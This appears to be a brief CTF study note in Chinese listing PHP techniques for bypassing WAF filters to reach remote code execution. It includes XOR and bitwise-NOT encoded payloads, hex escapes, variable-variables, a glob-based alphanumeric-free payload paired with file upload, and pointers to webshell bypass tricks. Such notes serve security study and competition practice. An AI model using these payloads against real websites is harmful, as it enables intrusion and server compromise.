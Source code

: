 tags:: CTF/RCE, CTF/PHP/WAF绕过， CTF/PHP/无字母数字RCE

- `'`
	- `"`
- `base_convert`
	- `chr` 拼接
- 空格和括号
	- `eval('include$_GET[url]?>');`
- hex
	- php的`"`支持转义: `"\x61"`
- 和，或，非等二进制操作
	- 异或
	- `((%fe%fe%fe%fe%fe%fe%fe)^(%8e%96%8e%97%90%98%91))();`
	- 取反
	- `${~'%99%93%9E%98'} # $flag`
	- 可以使用方括号构造数组并取第一个元素的方式绕过空格WAF
		- `[~%8c%86%8c%8b%9a%92][!%FF]`
- `$$`
	- ```php
	  $a = "b"
	  $b = "asd"
	  echo($$a) // 输出asd
	  ```
- 使用不可见字符作为变量名
- glob
	- ```
	  `?><?=`. /???/????????[@-[]`?>`	
	  ```
	- 需要配合文件上传,具体见[[CTFWEB/PHP/无字母数字RCE]]
- #### 从其他地方读取
	- 其他未被过滤的参数(GET 或者 POST)
	- session_id()
	- cookie
	- log
- [[CTFWEB/PHP/无字母数字RCE]]
- [[CTFWEB/PHP/特殊标签]]
- # webshell绕WAF技巧
	- [[CTFWEB/PHP/webshell]]